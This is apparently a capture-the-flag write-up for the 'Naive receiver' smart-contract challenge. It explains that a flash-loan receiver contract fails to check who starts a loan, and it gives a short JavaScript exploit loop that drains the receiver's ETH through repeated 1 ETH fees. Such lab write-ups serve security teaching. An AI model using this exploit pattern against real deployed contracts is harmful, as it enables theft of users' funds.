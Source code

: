 # Challenge #2 - Naive receiver
 There's a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.

 You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiveing flash loans of ETH.

 Drain all ETH funds from the user's contract. Doing it in a single transaction is a big plus ;) 

## Exploit 
The user contract ``FlashLoanReceiver.sol`` is not checking the ``msg.value`` variable 
when ``recieveEther()`` is called. That way, we can drain his contract by passing a 0 value and 
collecting the ``1 ether`` FEE from the user's contract.   

```js
	it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */   
		while(await ethers.provider.getBalance(this.receiver.address) != 0){
			await this.pool.flashLoan(this.receiver.address, 0)
		}
    });
```
